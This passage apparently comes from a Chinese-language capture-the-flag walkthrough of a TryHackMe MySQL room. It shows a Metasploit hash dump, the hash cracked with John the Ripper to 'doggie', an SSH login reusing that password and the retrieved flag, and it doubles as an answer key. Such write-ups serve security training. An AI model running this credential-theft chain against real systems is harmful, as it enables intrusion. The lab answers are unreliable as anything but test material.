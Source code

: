 ````ad-details
msf6 auxiliary(scanner/mysql/mysql_hashdump) > 
```


````

又一个用户！而且我们已经获取了他们的密码散列。这个密码散列信息可能非常有价值。请完整复制哈希字符串，例如：`bob:*HASH`，并将其保存到您本地机器上名为“hash.txt”的文本文件中。

```ad-details
collapse: true
title: 这个`user/hash`组合字符串是什么？
**答案** `carl:*EA031893AA21444B170FC2162A56978B8CEECE18`
```

````ad-details
collapse: true
title: 现在，我们必须破解这个密码！让我们用`John the Ripper`工具来尝试破解，使用“`john hash.txt`”文件，我们找到的这个用户的密码是什么？
**答案** `doggie `

```bash
root@ip-10-10-17-70:~# john  hash.txt 
Warning: detected hash type "mysql-sha1", but the string is also recognized as "mysql-sha1-opencl"
...
Proceeding with incremental:ASCII
doggie           (carl)
...
root@ip-10-10-17-70:~# 
```

````

棒极了，密码重复使用不仅极其危险，而且极为普遍。这个用户将他们的密码用于其他服务的可能性有多大呢？

````ad-details
collapse: true
title: 关于`MySQL.txt`文件，它包含了哪些内容？
**答案** `THM{congratulations_you_got_the_mySQL_flag}`

**解析**：
- 登陆`ssh`
```bash
root@ip-10-10-17-70:~# ssh carl@10.10.58.132 
...
carl@10.10.58.132's password:      #password: doggie
```
- 获取`flag`

```
carl@polomysql:~$ ls
MySQL.txt
carl@polomysql:~$ cat MySQL.txt 
THM{congratulations_you_got_the_mySQL_flag}
carl@polomysql:~$ 
```
````
